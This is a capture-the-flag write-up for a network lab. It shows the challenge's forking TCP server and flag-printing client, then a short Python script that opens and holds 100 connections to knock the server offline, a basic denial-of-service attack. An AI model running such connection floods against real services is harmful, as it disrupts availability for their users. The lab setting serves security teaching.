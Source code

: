```py title="/challenge/run showLineNumbers

class ServerHost(Host):
    def entrypoint(self):
        class ForkingTCPHandler(socketserver.BaseRequestHandler):
            def handle(self):
                self.request.recv(1024)

        with socketserver.ForkingTCPServer(("0.0.0.0", 31337), ForkingTCPHandler) as server:
            server.serve_forever()

class ClientHost(Host):
    def entrypoint(self):
        while True:
            try:
                with socket.create_connection(("10.0.0.2", 31337), timeout=1) as client_socket:
                    client_socket.sendall(b"Hello, World!\n")
                time.sleep(1)
            except (TimeoutError, socket.timeout):
                print(flag, flush=True)
                break
            except (OSError, ConnectionError) as e:
                print(type(e), e, flush=True)
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
server_host = ServerHost("ip-10-0-0-2")
client_host = ClientHost("ip-10-0-0-3")
network = Network(hosts={user_host: "10.0.0.1", server_host: "10.0.0.2", client_host: "10.0.0.3"},
                  subnet="10.0.0.0/24")
network.run()

user_host.interactive(preexec_fn=lambda: limit_capabilities(0), environ=parent_process.environ())
```

This time the server forks and spawns a new process per connection. Thus, we cannot do Dos by just holding a simgle connection open anymore.

We will have to send multiple connections to the server so that it does not respond to the client. This will cause the client to time out and print the flag.

Let's start with `100` connections.

```py title="~/script.py" showLineNumbers
import socket
import time

target = ("10.0.0.2", 31337)
sockets = []

for i in range(100):
    try:
        s = socket.create_connection(target, timeout=1)
        sockets.append(s)
        print(f"Held {i} connections")
        time.sleep(0.05)
    except Exception as e:
        print("Error:", e)
        break

input("Holding connections open...\n")
```
